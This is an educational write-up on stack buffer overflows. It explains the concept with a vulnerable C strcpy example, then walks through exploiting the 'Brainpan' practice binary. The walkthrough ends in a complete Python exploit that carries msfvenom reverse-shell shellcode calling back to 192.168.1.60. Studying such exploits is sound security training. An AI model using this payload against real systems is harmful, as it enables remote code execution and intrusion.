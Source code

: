 ## Stack Overflows

## What is a Stack Buffer Overflow?

A stack buffer overflow is a type of vulnerability that occurs when a program writes more data to a buffer on the stack than it was originally allocated to hold. Buffers are blocks of memory, typically arrays or character strings, that store temporary data. When a program doesn’t check the amount of data written to a buffer, it can overwrite other parts of the stack, which can cause unintended behavior, crashes, or security vulnerabilities.

In short, a stack buffer overflow happens when the data you’re writing exceeds the buffer’s allocated memory and begins to overwrite adjacent memory, potentially including the return address and local variables stored on the stack.

### Example of a Stack Buffer Overflow

Consider this C code:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *str) {
    char buffer[10];  // Allocate a small buffer of 10 bytes
    strcpy(buffer, str);  // Copy input into buffer without checking size
}

int main() {
    char *long_string = "This string is too long for the buffer!";
    vulnerable_function(long_string);
    return 0;
}
```

#### In this example:

1. The function vulnerable_function creates a buffer on the stack that can hold only 10 bytes.
2. The strcpy function copies the contents of long_string into buffer.
3. Since long_string is longer than 10 bytes, strcpy writes beyond the boundaries of buffer, causing a stack buffer overflow.

### Why Is a Stack Buffer Overflow Dangerous?

When the data overflows past the buffer, it overwrites nearby memory on the stack, which can include:

- Return addresses: Changing the return address can redirect the program’s execution flow, often to code provided by an attacker.
- Local variables and control structures: This can change the behavior of the function, possibly causing unexpected actions or program crashes.

### Exploiting a Stack Buffer Overflow

Attackers can exploit stack buffer overflows to inject and execute malicious code. Let’s break down how:

1. Controlling the Return Address: By carefully crafting the overflow data, an attacker can overwrite the return address with the memory address of their own malicious code.
2. Injecting Malicious Code: The attacker can place malicious code (often called shellcode) in memory, usually within the overflowed buffer.
3. Redirecting Execution: When the function returns, instead of returning to the caller, it jumps to the attacker’s code, effectively granting control over the program.

## Example of Exploitation

In this section we are going to exploit a binary called "Brainpan". You can download it here --> [brainpan.exe](/assets/binaries/brainpan.exe).

We have the following exploit template:

### Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000  # change me

payload = b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```

We start clicking at the binary to execute it.

![](/assets/img/more_images/2024-10-25-1.png)

Don't forget to attach the debugger to it, in this case I will use "WinDbg". Attach it and send the payload.

![](/assets/img/more_images/2024-10-25-2.png)

We see that the "eip" is overwritten. We need to find an offset to overwrite the "eip" with our desired value. Using two metasploit modules (msf-pattern_create, msf-patter_offset) we can obtain that offset. The specific offset is "524".

Now, we have to jump to the "ESP", so we are going to use an interesting tool that help us to find some gadgets:

```powershell
.\rp-win-x86.exe -f ..\Preparation\1.stack_overflow\brainpan\brainpan.exe -r 5 > rop.txt
```

We check the rop.txt file:

![imagen](https://github.com/user-attachments/assets/b599dc57-6c94-4058-a73b-a9698012c3f6)

Bingo! We have the "jmp esp" address. We include it in out exploit and we add a padding of several "nops" to let the msfvenom shellcode to decode the badchars in execution.

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000 
OFFSET = 524

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.60 LPORT=6789  -f python -v shellcode -b '\x00' EXITFUNC=thread
shellcode =  b""
shellcode += b"\xdb\xd6\xd9\x74\x24\xf4\xbb\x4c\x44\x20\xf7"
shellcode += b"\x5a\x31\xc9\xb1\x52\x31\x5a\x17\x03\x5a\x17"
shellcode += b"\x83\x8e\x40\xc2\x02\xf2\xa1\x80\xed\x0a\x32"
shellcode += b"\xe5\x64\xef\x03\x25\x12\x64\x33\x95\x50\x28"
shellcode += b"\xb8\x5e\x34\xd8\x4b\x12\x91\xef\xfc\x99\xc7"
shellcode += b"\xde\xfd\xb2\x34\x41\x7e\xc9\x68\xa1\xbf\x02"
shellcode += b"\x7d\xa0\xf8\x7f\x8c\xf0\x51\x0b\x23\xe4\xd6"
shellcode += b"\x41\xf8\x8f\xa5\x44\x78\x6c\x7d\x66\xa9\x23"
shellcode += b"\xf5\x31\x69\xc2\xda\x49\x20\xdc\x3f\x77\xfa"
shellcode += b"\x57\x8b\x03\xfd\xb1\xc5\xec\x52\xfc\xe9\x1e"
shellcode += b"\xaa\x39\xcd\xc0\xd9\x33\x2d\x7c\xda\x80\x4f"
shellcode += b"\x5a\x6f\x12\xf7\x29\xd7\xfe\x09\xfd\x8e\x75"
shellcode += b"\x05\x4a\xc4\xd1\x0a\x4d\x09\x6a\x36\xc6\xac"
shellcode += b"\xbc\xbe\x9c\x8a\x18\x9a\x47\xb2\x39\x46\x29"
shellcode += b"\xcb\x59\x29\x96\x69\x12\xc4\xc3\x03\x79\x81"
shellcode += b"\x20\x2e\x81\x51\x2f\x39\xf2\x63\xf0\x91\x9c"
shellcode += b"\xcf\x79\x3c\x5b\x2f\x50\xf8\xf3\xce\x5b\xf9"
shellcode += b"\xda\x14\x0f\xa9\x74\xbc\x30\x22\x84\x41\xe5"
shellcode += b"\xe5\xd4\xed\x56\x46\x84\x4d\x07\x2e\xce\x41"
shellcode += b"\x78\x4e\xf1\x8b\x11\xe5\x08\x5c\xde\x52\x13"
shellcode += b"\xa0\xb6\xa0\x13\xc2\xc3\x2c\xf5\x98\xdb\x78"
shellcode += b"\xae\x34\x45\x21\x24\xa4\x8a\xff\x41\xe6\x01"
shellcode += b"\x0c\xb6\xa9\xe1\x79\xa4\x5e\x02\x34\x96\xc9"
shellcode += b"\x1d\xe2\xbe\x96\x8c\x69\x3e\xd0\xac\x25\x69"
shellcode += b"\xb5\x03\x3c\xff\x2b\x3d\x96\x1d\xb6\xdb\xd1"
shellcode += b"\xa5\x6d\x18\xdf\x24\xe3\x24\xfb\x36\x3d\xa4"
shellcode += b"\x47\x62\x91\xf3\x11\xdc\x57\xaa\xd3\xb6\x01"
shellcode += b"\x01\xba\x5e\xd7\x69\x7d\x18\xd8\xa7\x0b\xc4"
shellcode += b"\x69\x1e\x4a\xfb\x46\xf6\x5a\x84\xba\x66\xa4"
shellcode += b"\x5f\x7f\x86\x47\x75\x8a\x2f\xde\x1c\x37\x32"
shellcode += b"\xe1\xcb\x74\x4b\x62\xf9\x04\xa8\x7a\x88\x01"
shellcode += b"\xf4\x3c\x61\x78\x65\xa9\x85\x2f\x86\xf8"


payload = b"A" * OFFSET
payload += struct.pack("<L",0x311712f3) # JMP ESP
payload += b"\x90" * 10
payload += shellcode
payload += b"C" * (CRASH_LEN - len(payload))

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```
